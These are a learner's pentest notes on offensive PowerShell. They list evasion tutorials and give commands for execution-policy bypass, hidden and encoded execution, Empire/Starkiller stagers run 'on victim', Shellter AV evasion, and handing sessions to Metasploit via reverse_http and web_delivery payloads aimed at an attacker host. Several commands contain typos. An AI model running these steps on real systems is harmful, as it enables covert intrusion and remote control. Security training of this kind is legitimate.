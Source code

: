 # PowerShell for Pentesters

## Recap:

#### Courses

- [John hammond powershell tuto playlist](https://www.youtube.com/playlist?list=PL1H1sBF1VAKXqO_N3ZNP0aL15miJcUhw7)
- [Powershell obfuscation in 3 min](https://www.youtube.com/watch?v=vIX5ZyzRy38&ab_channel=Hacktivity-ITSecurityFestival)
- [Powershell obfuscation](https://www.youtube.com/watch?v=6xexyQwG7SY&ab_channel=HackerSploit)
- [Powershell obfuscation manualy with github repo source](https://www.youtube.com/watch?v=tGFdmAh_lXE&ab_channel=t3l3machus)
- [shellter for antivirus evasion](https://www.youtube.com/watch?v=fPTKPobJjRY&ab_channel=SendiNovriadi)
- [Empire in 5 min](https://www.youtube.com/watch?v=3-cKDyyAGwc&ab_channel=HackerHankbook)
- [Empire](https://www.youtube.com/watch?v=52xkWbDMUUM&ab_channel=HackerSploit)
- [Empire from zero to hero (without pivoting)](https://www.youtube.com/watch?v=78I4fD0s6Ho&ab_channel=CYBERRANGES)
- [From empire to metasploit session (obselet i think based on new version of empire)](https://www.youtube.com/watch?v=nO2ZvjCea0U&ab_channel=Metasploitation)
- [Startkiller (Empire web interface)](https://www.youtube.com/watch?v=T00atUtARKE&ab_channel=MotasemHamdan)
- [Startkiller (Empire web interface) Post Exploit](https://www.youtube.com/watch?v=TgCQ5_EbM6Y&t=65s&ab_channel=CYBERRANGES)

### Articles

#### Blog and article ( facultatif but recommanded )

- [15 ways to bypass execution policy](https://www.netspi.com/blog/technical-blog/network-pentesting/15-ways-to-bypass-the-powershell-execution-policy/)
- [Powershell obfuscation article (same as the video)](https://hackersploit.org/windows-red-team-defense-evasion-techniques/)
- [Powershell obfscation repo](https://github.com/danielbohannon/Invoke-Obfuscation)
- [Empire pivoting](https://www.snaplabs.io/insights/lateral-movement-methods-and-good-practices)
- [Empire pivoting 2](https://ijustwannared.team/2018/02/10/empire-ception/)
- [Empire session to meterpreter 1](https://sixdub.medium.com/empire-tool-diversity-integration-is-key-bbb0dbc0af9f)
- [Empire session to meterpreter 2](https://www.youtube.com/watch?v=nO2ZvjCea0U&ab_channel=Metasploitation)
- [Empire with luckyStrike phishing scenario](https://www.youtube.com/watch?v=dRebw65X5eQ&ab_channel=HackerSploit)
- [Persistance with empire](https://www.hackingarticles.in/windows-persistence-with-powershell-empire/)
- [WMI persistance](https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/)

## Notes

##### Basics

```powershell
# bypass policy
powershell.exe -<ExecutionPolicy | ep> <Bypass | Unrestructer> <program.exe | calc.exe>

# hidden
powershell.exe -WindowStyle Hidden <program.exe | calc.exe>

# encode
powershell.exe -endocdedCommand <$var | string>


powershell.exe -Get-Service # to get sys infos and service running

## get alias ( tous les raccourcis : ls, dir....)
Get-Alias -Definition Get-ChildItem
## get process exe ( path)
Get-Process <ProcessName> | Sort-Object -Unique | Format-List Path

## get infos
Get-WmiObject -class win32_operationsystem | select -Property * | <apply other filter like:  Select-Object <property> >
# alternative to format-list :
fl


# modules ( extension .psm1)

# get all modules
Get-Module -List-Available

#import module
# powersploit
```

## Powershell with C2 and Obfuscation

- In order to evade antivirus, we could combine empire/startkiller stager with other framework like :
  - **Shellter and luckyStrike** to obfuscate or compromise native app

```bash
# install empire in kali
sudo apt install powershell-empire

# install anywhere
sudo apt-get update && sudo apt-get install powershell-empire startkiller -y

# lunch empire
sudo powershell-empire server
# then lunch the client
sudo powershell-empire client
# lunch web interface
startkiller # (in search bar)
# or
startkiller -no-sandbox # in terminal

# go explore empire and startkiller

# Shellter in kali: need wine because is exe
dpkg --add-architecture i386
apt update && apt install wine32
# install shellter
sudo apt install shellter
# download the shellter project and run
wine shellter
# or
shellter
```

### Empire process to get shell for noob :

- Lunch empire server
- Lunch empire client
- create listenner
- create stager
- run stager on victim
- get shell
- interact with agent
- run post exploit modules with : **usemodule**

```bash
# nmap by pivoting
usemodule powershell/situational_awareness/network/portscan
# set host and port
```

### From empire session to meterpreter :

```bash
# interact with the agent
interact agentName
# migrate
usemodule powershell/code_execution/invoke_shellcode
set LHOST <lhost>
set LPORT <lport>
set payload <payloadname | reverse_http>

# go on msfconsole
use exploit/multi/handler
set payload windows/meterpreter/<payload_name>
set LHOST <lhost>
set LPORT <lport>
set exitonsession false
exploit -j
# return on empire agent
execute


#alternative


# 1. go on msfconsole
use exploit/multi/script/web_delivery
set target 2
set SRVHOST <AttackIp>
set LHOST <AttackIp>
set payload windows/meterpreter/<payload_name>
exploit

# 2. go on empire
usemodule powershell/code_execution/invoke_metasploitpayload
set URL <Url From the exploit result>
execute

#3. Got shell
sessions
```

